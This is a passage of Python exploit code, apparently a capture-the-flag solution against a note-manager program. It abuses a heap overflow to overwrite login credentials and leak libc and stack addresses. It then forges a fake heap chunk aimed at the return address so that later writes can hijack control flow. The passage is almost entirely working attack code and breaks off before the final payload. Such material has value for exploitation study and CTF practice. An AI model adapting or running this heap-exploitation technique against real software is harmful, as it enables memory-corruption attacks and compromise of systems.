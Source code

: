 ```py
    # At this time the username and password are overwritten due to heap overflow
    # so we need to recalculate the username and password.
    new_username = p64(heap_base + 0x3650)
    new_password = p64(heap_base + 0x3b90)
    login(new_username, new_password)
    r.sendlineafter(b'Your choice: ', b'5')
    edit_fullname(p64(heap_base + 0x1ef0))

    r.sendlineafter(b'Your choice: ', b'3')
    r.sendlineafter(b'Your choice: ', b'3')
    
    login(b'grass', b'1')
    r.sendlineafter(b'Your choice: ', b'4')
    r.sendlineafter(b'Your choice: ', b'2')
    for i in range(0x19):
        r.recvuntil(b'Content: grass\n')
    r.recvuntil(b'Title: ')
    libc_leak = u64(r.recv(6).ljust(8, b'\x00'))
    libc.address = libc_leak - 0x203b20

    r.sendlineafter(b'Your choice: ', b'5')
    r.sendlineafter(b'Your choice: ', b'3')

    login(new_username, new_password)
    r.sendlineafter(b'Your choice: ', b'5')
    edit_fullname(p64(libc.sym['environ']))
    r.sendlineafter(b'Your choice: ', b'3')
    r.sendlineafter(b'Your choice: ', b'3')


    login(b'grass', b'1')
    r.sendlineafter(b'Your choice: ', b'4')
    r.sendlineafter(b'Your choice: ', b'2')
    for i in range(0x19):
        r.recvuntil(b'Content: grass\n')
    r.recvuntil(b'Title: ')
    stack_leak = u64(r.recv(6).ljust(8, b'\x00'))
    return_address = stack_leak - 0x190
    r.sendlineafter(b'Your choice: ', b'5')
    r.sendlineafter(b'Your choice: ', b'3')

    login(new_username, new_password)
    r.sendlineafter(b'Your choice: ', b'4')
    fake_chunk = b'a'*0x20 + p64(return_address)
    add_note(b'bbbbbbbb', fake_chunk)
    delete_note(b'bbbbbbbb')
    fake_chunk = b'a'*0x18
    add_note(b'bbbbbbbb', fake_chunk)

    fake_chunk_address = heap_base + 0x1da0
    r.sendlineafter(b'Your choice: ', b'5')
    r.sendlineafter(b'Your choice: ', b'5')
    edit_fullname(p64(fake_chunk_address))
    r.sendlineafter(b'Your choice: ', b'3')
    r.sendlineafter(b'Your choice: ', b'3')

    login(b'grass', b'1')
    r.sendlineafter(b'Your choice: ', b'4')
    for i in range(24):
        delete_note(b'grass')

    r.sendlineafter(b'Your choice: ', b'3')
    r.sendlineafter(b'Enter the title of the note you want to edit: ', b'a'*0x18)
```
